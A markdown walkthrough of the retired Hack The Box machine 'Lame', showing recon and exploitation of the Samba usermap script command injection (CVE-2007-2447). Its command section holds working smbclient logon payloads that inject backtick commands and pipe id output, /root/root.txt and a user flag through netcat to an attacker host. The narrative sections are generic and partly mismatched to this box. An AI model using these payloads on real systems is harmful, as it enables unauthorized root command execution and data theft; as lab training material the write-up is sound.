

<div align="center">


<br>


<br>

### Legacy Samba usermap script command execution

</div>

---

> [!WARNING]
> **Spoiler warning:** This is a full retired-box walkthrough. Flags are intentionally redacted for GitHub, but the exploitation chain and key techniques are documented.

---

## 🧭 Snapshot

| Field | Value |
|---|---|
| Machine | `Lame` |
| Platform | Hack The Box |
| Retirement Status | Confirmed retired via HTB MCP |
| OS | Linux |
| Difficulty | Easy |
| Tags | `linux` `samba` `cve-2007-2447` `legacy` `rce` |

---

## ⚡ TL;DR

Lame is HTB history: the tempting vsftpd backdoor is a rabbit hole, while Samba's `username map script` command injection provides direct command execution as root. A crafted SMB logon username executes shell commands and reads flags.

---

## 🛰️ Attack Surface

| Port | Service | Note |
|---:|---|---|
| `21/tcp` | FTP | vsftpd 2.3.4 |
| `22/tcp` | SSH | OpenSSH 4.7 |
| `139/445` | SMB | Samba 3.x |
| `3632` | distccd | GNU distcc |

---

## 🧩 Attack Chain

| Step | Action |
|---:|---|
| 1 | Run full port scan and identify legacy FTP/SMB/distccd services |
| 2 | Reject or deprioritize noisy vsftpd false path |
| 3 | Identify Samba 3.x usermap script vulnerability |
| 4 | Connect to writable SMB share with crafted username |
| 5 | Inject command substitution into logon string |
| 6 | Exfiltrate `/root/root.txt` over netcat |
| 7 | Repeat for user flag if needed |

---

## 🕸️ Visual Attack Graph



---

## 📖 Walkthrough Narrative

### 1. Enumeration First

The box starts with a small but meaningful exposed surface. The important step was not just collecting ports, but translating each service into a hypothesis: web apps might leak credentials, AD services may expose relationships, and legacy protocols often carry historical misconfigurations.

### 2. The First Real Lead

The first meaningful lead came from the service that looked most application-specific. Instead of forcing exploitation immediately, the approach was to inspect configuration, authentication flows, exposed files, or protocol-specific metadata until a credential or execution primitive appeared.

### 3. Turning Access Into Execution

After the initial lead, the path became a chain rather than a single exploit. The recovered access was validated across protocols, then reused or upgraded into a stronger primitive: command execution, SSH/WinRM access, CMS administration, Kerberos delegation, or local shell execution.

### 4. Privilege Escalation

Root/admin access came from the machine's core misconfiguration or vulnerability theme. The final step was validated with the minimum proof needed, then flags were captured and stored locally. Public flags are not included here.

---

## 🧰 Command Palette

<details open>
<summary><b>🔎 Recon</b></summary>

```bash
sudo nmap -sC -sV -Pn -p- -oN nmap_full.txt <target-ip>
sudo nmap -sC -sV -Pn -p 21,22,139,445,3632 -oN nmap_tcp.txt <target-ip>

# Key versions
# 21/tcp   vsftpd 2.3.4
# 139/445  Samba smbd 3.X
# 3632     distccd
```

</details>

<details open>
<summary><b>🧪 Rabbit-hole Checks</b></summary>

```bash
# Tempting but not the final path in this solve
searchsploit vsftpd 2.3.4
searchsploit distccd
nxc smb <target-ip> -u '' -p '' --shares
smbclient -N -L //<target-ip>/ --option='client min protocol=NT1'
```

</details>

<details open>
<summary><b>💥 Samba usermap script RCE</b></summary>

```bash
# Start listener for command output
nc -lvnp 4461

# In another terminal, inject command through crafted SMB username/logon string
printf 'logon "/=\`id | nc <attacker-ip> 4461\`"\n\n' | \
  timeout 15 smbclient -N //<target-ip>/tmp --option='client min protocol=NT1'

# Read root flag through the same primitive
nc -lvnp 4462 > root_flag.txt
printf 'logon "/=\`cat /root/root.txt | nc <attacker-ip> 4462\`"\n\n' | \
  timeout 15 smbclient -N //<target-ip>/tmp --option='client min protocol=NT1'

cat root_flag.txt
```

</details>

<details open>
<summary><b>👤 User Flag</b></summary>

```bash
nc -lvnp 4463 > user_flag.txt
printf 'logon "/=\`cat /home/makis/user.txt | nc <attacker-ip> 4463\`"\n\n' | \
  timeout 15 smbclient -N //<target-ip>/tmp --option='client min protocol=NT1'

cat user_flag.txt
```

</details>


---

## 🔐 Key Lessons

| # | Lesson |
|---:|---|
| 1 | Enumeration is not output collection — it is hypothesis building. |
| 2 | Credentials often matter more than exploits; validate them across protocols. |
| 3 | Configuration files, backups, logs, and source repositories are high-value evidence. |
| 4 | Privilege escalation usually depends on understanding why a service or permission exists. |

---

## 🛡️ Defensive Takeaways

| # | Recommendation |
|---:|---|
| 1 | Retire unsupported Samba versions immediately |
| 2 | Disable dangerous username map scripts |
| 3 | Segment legacy hosts away from production networks |
| 4 | Monitor suspicious SMB usernames containing shell metacharacters |

---

## 🏁 Final Path

```text
Run full port scan and identify legacy FTP/SMB/distccd services → Reject or deprioritize noisy vsftpd false path → Identify Samba 3.x usermap script vulnerability → Connect to writable SMB share with crafted username → Inject command substitution into logon string → Exfiltrate `/root/root.txt` over netcat → Repeat
```

<div align="center">

### ✅ Lame rooted — full guide complete


</div>
